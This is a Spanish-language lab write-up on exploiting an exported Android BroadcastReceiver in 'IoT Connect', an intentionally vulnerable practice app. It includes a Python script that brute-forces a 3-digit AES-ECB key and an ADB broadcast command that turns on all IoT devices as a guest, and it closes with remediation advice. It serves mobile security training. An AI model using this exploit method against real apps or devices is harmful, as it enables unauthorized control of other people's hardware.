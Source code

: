 # 🔓 IoT Connect - Análisis y Explotación de BroadcastReceiver Vulnerable

Este repositorio documenta el análisis completo y explotación de una vulnerabilidad crítica en una aplicación Android IoT ficticia, **IoT Connect**, utilizada como laboratorio para prácticas de pentesting móvil.

---

## 🧪 Instalación y Registro

Comenzamos instalando el APK en el dispositivo.

![Instalación del APK](imagenes/2025-04-22_20-56-Install.png)

Creamos una nueva cuenta de usuario:  
`fr3do : fr3do`

![Formulario de registro](imagenes/2025-04-22_20-57-Registro.png)  
![Registro exitoso](imagenes/2025-04-22_20-59-registro_exitoso.png)  
![Inicio de sesión](imagenes/2025-04-22_20-59-login.png)

---

## 🔍 Exploración del Comportamiento

Una vez dentro de la app, notamos que algunos dispositivos pueden ser controlados.

![Vista de control de artefactos](imagenes/2025-04-22_21-00-control.png)

Pero como usuario invitado, aparece el mensaje:

> **"Sorry Guest..."**

Esto sugiere que existen funciones ocultas o limitadas por permisos. Es el punto de partida para el análisis en `jadx-gui`.

![Mensaje de error de Guest](imagenes/2025-04-22_21-00-error_guest.png)

---

## 🧬 Análisis Estático con jadx-gui

### AndroidManifest.xml

Exploramos el archivo `AndroidManifest.xml` y encontramos:
![AndroidManifest.xml](imagenes/2025-04-22_21-02-manifest.png)

```xml
<receiver
    android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="MASTER_ON"/>
    </intent-filter>
</receiver>
```

✅ Está exportado, lo que significa que cualquier app externa o ADB puede enviarle un intent.
Componentes Relevantes

Componentes Relevantes
Componentes encontrados en el AndroidManifest:

`MainActivity`, `LoginActivity`, `SignupActivity`
`IoTNavigationActivity`, `HomeActivity`
`MasterSwitchActivity` – Su nombre sugiere control administrativo o maestro.
`CommunicationManager` – Maneja las comunicaciones, y contiene el método `initialize()` que registra dinámicamente el receptor para `MASTER_ON`.

---

## 🧠 Lógica en CommunicationManager
En la clase `CommunicationManager`:
![CommunicationManager](imagenes/2025-04-22_21-02-comunicator.png)

Se registra dinámicamente un `BroadcastReceiver` para la acción `MASTER_ON`.
Se extrae un parámetro `key` del `Intent`.
Se verifica mediante `Checker.INSTANCE.check_key(key)`.
Si es válido, se llama a `turnOnAllDevices(context)`.

---

## 🔐 Análisis de Seguridad: Checker
En la clase `Checker` se encuentra lo siguiente:
![Checker](imagenes/2025-04-22_21-02-checker.png)
```
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    return decrypt(ds, key).equals("master_on");
}
```
El string cifrado se desencripta con AES/ECB/PKCS5Padding.
La clave se genera con el valor entero del PIN proporcionado.
Si el resultado es `"master_on"` el acceso es válido.

---

## 🧨 Fuerza Bruta del PIN
Como el PIN es de 3 dígitos, creamos un script Python para romper la clave por fuerza bruta.

### Código Python
```
from Crypto.Cipher import AES
from base64 import b64decode

ds = "OSnaALIWUkpOziVAMycaZQ=="

def generate_key(key):
    key_bytes = bytearray(16)
    static_bytes = str(key).encode("utf-8")
    key_bytes[:len(static_bytes)] = static_bytes[:16]
    return bytes(key_bytes)

def decrypt(ds, key):
    secret_key = generate_key(key)
    cipher = AES.new(secret_key, AES.MODE_ECB)
    decrypted = cipher.decrypt(b64decode(ds))
    return decrypted.decode("utf-8")

for i in range(100, 1000):
    try:
        result = decrypt(ds, i)
        if "master_on" in result:
            print(f"✔️ Key encontrada: {i}, Resultado: {result}")
            break
    except Exception:
        continue
```

Resultado:
![Resultado](imagenes/2025-04-22_21-03-resultado-brute.png)

```
✔️ Key encontrada: 345, Resultado: master_on
```

---

## 🚀 Explotación desde ADB
Ahora podemos explotar la vulnerabilidad usando el siguiente comando ADB:
![Explotacion desde ADB](imagenes/2025-04-22_21-04-explotacion-adb.png)

```
adb shell am broadcast -a MASTER_ON --ei key 345
```
Resultado:

✅ El sistema responde:
`All devices are turned on`
![Sistema Explotado](imagenes/2025-04-22_21-04-resultado-explotado.png)
✅ Confirmamos que, incluso como "Guest", pudimos activar todos los artefactos IoT.

---

## ✅ Conclusión
Se descubrió un `BroadcastReceiver` vulnerable expuesto sin validación de permisos.
Fue posible forzar la clave por fuerza bruta (solo 3 dígitos).
Se obtuvo control total de los dispositivos conectados simplemente enviando un `Intent`.

---

## 🛡️ Recomendaciones de Seguridad
Establecer `android:exported="false"` para componentes sensibles.
Validar siempre permisos y autenticación en receivers.
Utilizar claves fuertes y derivadas de métodos seguros (PBKDF2, bcrypt, etc).
No usar AES en modo ECB (es inseguro y predecible).
Evitar lógica de seguridad crítica en el lado cliente.

---

## 📁 Créditos
Análisis realizado por fr3do

Laboratorio: IoT Connect - Mobile Hacking Lab
